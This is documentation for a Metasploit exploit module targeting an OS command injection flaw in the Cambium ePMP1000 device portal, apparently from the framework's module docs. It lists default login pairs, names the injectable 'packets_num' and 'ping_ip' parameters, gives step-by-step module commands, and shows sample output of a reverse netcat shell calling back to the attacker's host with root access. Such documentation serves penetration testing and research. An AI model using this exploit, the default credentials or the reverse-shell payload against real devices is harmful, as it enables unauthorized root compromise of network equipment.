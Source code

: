 This module exploits an OS Command Injection vulnerability in Cambium ePMP1000 device management portal. It requires any one of the following login credentials - admin/admin, installer/installer, home/home - to set up a reverse netcat shell.

This module injects the payload in 'packets_num' parameter. Alternatively, a second, vulnerable parameter 'ping_ip' can also be used.

Note: `cmd/unix/reverse_netcat` is the only payload that seems to work and is stable. After the session is opened, there may be a slight delay in response after first command is issued. There are no delays in receiving responses to subsequent command(s). It is recommended to use 'exploit -j'.

## Verification Steps

1. Do: ```use exploit/unix/http/epmp1000_ping_cmd_shell```
2. Do: ```set RHOST [IP]```
3. Do: ```set RPORT [PORT]```
4. Do: ```set LHOST [IP]```
5. Do: ```exploit -j```

## Sample Output

  ```
msf > use use exploit/unix/http/epmp1000_ping_cmd_shell
msf exploit(epmp1000_ping_cmd_shell) > set RHOST 192.168.0.2
msf exploit(epmp1000_ping_cmd_shell) > set RPORT 80
msf exploit(epmp1000_ping_cmd_shell) > set LHOST 192.168.0.104
msf exploit(epmp1000_ping_cmd_shell) > exploit -j

[*] Started reverse TCP handler on 192.168.0.104:4444
[+] SUCCESSFUL LOGIN - 192.168.0.2:80 - "installer":"installer"
[*] Sending payload...
[*] Command shell session 10 opened (192.168.0.104:4444 -> 192.168.0.2:43594) at 2017-12-02 06:08:00 +0700

msf exploit(epmp1000_ping_cmd_shell) > sessions -l

Active sessions
===============

  Id  Type            Information  Connection
  --  ----            -----------  ----------
  10   shell cmd/unix               192.168.0.104:4444 -> 192.168.0.2:43594 (192.168.0.2)

msf exploit(epmp1000_ping_cmd_shell) > sessions -i 10
[*] Starting interaction with 10...

id
uid=0(root) gid=0(root)

  ```
